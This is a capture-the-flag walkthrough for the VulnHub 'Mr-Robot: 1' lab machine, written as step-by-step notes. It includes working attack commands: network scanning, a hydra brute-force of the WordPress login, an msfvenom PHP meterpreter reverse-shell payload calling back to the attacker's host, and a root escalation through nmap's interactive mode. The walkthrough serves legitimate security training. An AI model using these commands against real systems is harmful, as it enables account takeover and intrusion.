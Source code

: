 # Mr-Robot: 1
[VulnHub link](https://www.vulnhub.com/entry/mr-robot-1,151/)  
By Leon Johnson

Note:
* Using nmap/Zenmap to find out the victim's IP address, by scanning all IP addresses on a specific subnet is required because we are unable to get to the page of a GUI-based login page to view network information.
* We are presented with a CLI-based login method instead.

Walkthrough:
* Run `ifconfig` to find out what our IP address is (e.g. 192.168.153.160). Also, run `route -n` to see what our router gateway IP address is (e.g. 192.168.153.2). Find out the IP addresses of our known machines first to give us an idea into what IP address we should expect for our victim VM.
* Our target address on nmap/Zenmap is thus `192.168.153.*`. Run with the intense scan option if using Zenmap.
* Eliminate the addresses from the scan results based on the hosts that are already known to us, to see which other host is alive.
* This leaves us with 192.168.153.174 which is running on Linux and has open ports 80 (http) and 443 (tcp) with ssl. Port 22 (ssh) is closed.
* Open 192.168.153.174 on our browser and we get an interactive-style page greeting us.
* Run `uniscan -u 192.168.153.174 -qweds`.
* Note: uniscan is a Remote File Include, Local File Include and Remote Command Execution vulnerability scanner. -q enables directory checks, -w enables file checks, -e enables robots.txt and sitemap.xml check, -d enables dynamic checks and -s enables static checks.
* uniscan vs. dirbuster: *to-be-added*
* From the scan results, we see that the site is running on WordPress, given the many specific references: wp-includes, wp-admin, wp-content directories and a bunch of external hosts that have to do with WordPress resources.
* Since there is a robots.txt found from the scan, open it and we see that there are 2 files listed: fsocity.dic (dictionary) and key-1-of-3.txt.
* Run `wget 192.168.153.174/key-1-of-3.txt` to download the text file to our Kali VM, and do the same thing with the .dic file.
* key-1-of-3.txt contains a string (`073403c8a58a1f80d943455fb30724b9`): after running hash-identifer against it, we know that it could be a MD5 hash. We also know that the .dic file appears to be a wordlist.
* Head to the wp-login section of the WordPress site on our browser, for which we have to get the credentials to. After which, we can get a reverse shell.
* Insert a random parameter string at the end of the site (e.g. `/imag`), in order to get the error message that the site does not exist. This is one way for us to see the actual WordPress site instead of the interactive-style site that greeted us (which did not quite show us how we are able to escape that page to head to other pages of the site).
* After getting to the WordPress site, we see that there is a user elliot, from the only post on the site titled "TestPOst". elliot is also likely to be a username to a WordPress account.
* Run `wpscan --url 192.168.153.174 --enumerate users` to find out the usernames of other users on the WordPress site.
* wpscan: a black box WordPress vulnerability scanner. *to-be-continued*
* Head to the WordPress login site and attempt to login with a random password for the username `elliot`. There is an error stating that the password for elliot is incorrect. Thus, we now know that the username elliot indeed exists, and our next step is to brute-force the password for that account.
* Run hydra 192.168.153.174 http-form-post "/wp-login.php:log=elliot&pwd=^PASS^:ERROR" -l elliot -P /tut/fsocity.dic -t 10 -w 30
* hydra: parallelized login cracker which supports numerous protocols to attack.
* Note: log and pwd are found by inspecting the input elements of the page's username and password fields through Developer Tools: `<input id="user_login" class="input" name="log"...>` and `<input id="user_pass" class="input" name="pwd"...>`
* The password (ER28-0652) is found somewhere at the bottom of the .dic file, thus it took quite some time to get it.
* After logging in as elliot, we are able to login and install as plugin called [File Manager](https://wordpress.org/plugins/wp-file-manager/).
* Run `msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.153.160 LPORT=4000 -f raw > shell.php` on our Kali VM to generate our payload. The LHOST is the IP address of our Kali VM.
* The payload is shell.php. Upload it through File Manager, and the file path is htdocs/wp-content/uploads/shell.php.
* Run `msfconsole` on our Kali VM. Run `use exploit/multi/handler` and `set payload php/meterpreter_reverse_tcp`.
* Run `set LPORT=4000` and `set LHOST=192.168.153.160` (IP address of our Kali VM).
* Run `exploit -j -z`. Open our reverse shell on the victim VM, and we will see from our Kali VM terminal that a session has been started.
* Run `sessions -i 1` then `sysinfo` to confirm that we are running on a Linux machine as detected earlier from our nmap/Zenmap scan.
* Navigate to our home directory and we find a directory called robot. Enter robot and we find key-2-of-3.txt and password.raw-md5.
* The key text file cannot be opened by us at the moment because the file is only readable by root, with no other permissions set. However, the password.raw-md5 file can be opened by us.
* We find the username `robot` and his password hash (`c3fcd3d76192e4007dfb496cca67e13b`) within the password file. Search for the original value behind the MD5 hash on the Google search engine, and we have now got the password (`abcdefghijklmnopqrstuvwxyz`) to robot.
* To-do: try to login via ssh using robot username and password. Ensure that the IP address of the victim VM is entered correctly.
* After logging in as robot, we find that we are able to open key-2-of-3.txt.
* We have to now find the last key, which is in /root. However, even after logging in as robot, we do not have the permission to navigate to /root. We have to do a privilege escalation here, using a badly configured nmap.
* Run `nmap`, `nmap --interactive` and then `!sh` to get a shell. `whoami` shows that we are now `root`.
* Head to /root and we find key-3-of-3.txt: `04787ddef27c3dee1ee161b21670b4e4`.
